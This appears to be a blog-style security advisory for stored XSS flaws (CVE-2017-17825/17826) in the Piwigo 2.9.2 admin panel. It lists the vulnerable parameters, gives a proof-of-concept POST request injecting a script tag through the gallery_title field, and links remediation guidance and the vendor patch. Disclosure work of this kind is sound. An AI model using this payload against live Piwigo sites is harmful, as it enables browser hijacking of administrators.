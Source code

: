 ```yaml
---
layout: post
title: CVE-2017-17825 Multiple Stored XSS Vulnerabilities in Piwigo 2.9.2
tag: advisory
---
```


### Affected Version : <=2.9.2


### Description:

It was identified that admin panel of Piwigo application is vulnerable to multiple [Persistent Cross Site Scripting](https%3A%2F%2Fwww.owasp.org%2Findex.php%2FCross-site_Scripting_%28XSS%29) vulnerabilities. An attacker can exploit these vulnerabilities to hijack client's browser along with the data stored in it.  


### Vulnerable Instances:

- /admin.php?page=batch_manager&mode=unit, **[POST] tags-[] [CVE-2017-17825]**
- /admin.php?page=configuration&section=main, **[POST] gallery_title [CVE-2017-17826]**



### Proof of Concept:

Configuration *component*

**REQUEST**

```markdown
POST /piwigo-2.9.2/piwigo/admin.php?page=configuration&section=main HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:57.0) Gecko/20100101 Firefox/57.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://localhost/piwigo-2.9.2/piwigo/admin.php?page=configuration
Content-Type: application/x-www-form-urlencoded
Content-Length: 310
Cookie: pwg_id=ljmb7f4h6rsrdkv9bgotsl9ja3;
Connection: close
Upgrade-Insecure-Requests: 1

gallery_title=`</title><script>alert(document.domain)</script>`&page_banner=test+banner&order_by%5B%5D=date_available+DESC&order_by%5B%5D=file+ASC&order_by%5B%5D=id+ASC&rate_anonymous=on&allow_user_registration=on&allow_user_customization=on&week_starts_on=monday&history_guest=on&log=on&mail_theme=clear&submit=
```

**RESPONSE**

![stored xss](/assets/images/piwigo2.9.2/2.png)

### Remediation:

As the application make use of MVC architecture, it is recommended to implement a middleware or centralized controller that uses **[Context Specific Filtering](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet])** which sanitizes user input before printing it to user.

### Vendor Patches:

The patch released by vendor for this issue can be found [here](https://github.com/Piwigo/Piwigo/commit/c3b4c6f7f0ddeaea492080fb8211d7b4cfedaf6f)
